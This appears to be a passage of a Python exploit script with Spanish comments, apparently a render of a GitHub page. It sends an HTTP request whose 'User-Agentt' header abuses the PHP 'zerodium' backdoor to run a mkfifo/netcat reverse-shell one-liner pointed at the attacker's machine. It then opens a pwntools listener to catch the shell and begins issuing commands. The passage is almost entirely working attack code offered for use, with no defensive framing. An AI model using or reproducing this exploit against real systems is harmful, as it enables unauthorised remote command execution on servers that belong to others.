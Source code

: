 ```python

# Ctrl C
def handler(signal,frame):
	log.failure("Saliendo...")
	sys.exit(1)


signal.signal(signal.SIGINT,handler)


# Intrusion
def obtainShell():
	try:
		p1.status("Enviando...")
		time.sleep(1)
		
		# Exploit
		header_data= {
			"User-Agentt":"zerodiumsystem(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc %s %s >/tmp/f\");" % (sys.argv[2],lport)
		}


		r = s.get(sys.argv[1], headers=header_data)


		p1.success("Enviada")
		time.sleep(1)
	except:
		log.failure("Ha ocurrido un error!")
		sys.exit(1)




# Main
if __name__ == "__main__":
	# Comprobacion argv
	if(len(sys.argv)==3):
		try:
			threading.Thread(target = obtainShell).start()
		except Exception as e:
			log.error(str(e))


		p2.status("Esperando conexion...")


		# Listener
		shell = listen(lport,timeout=20).wait_for_connection()


		# Connection checker
		if shell.sock is None:
			log.failure("No se ha obtenido ninguna conexion!")
			sys.exit(1)
		else:
			p2.success("Conexion obtenida")
			time.sleep(1)


			# Nos situamos en el directorio de trabajo
			shell.sendline(b'cd /tmp')
```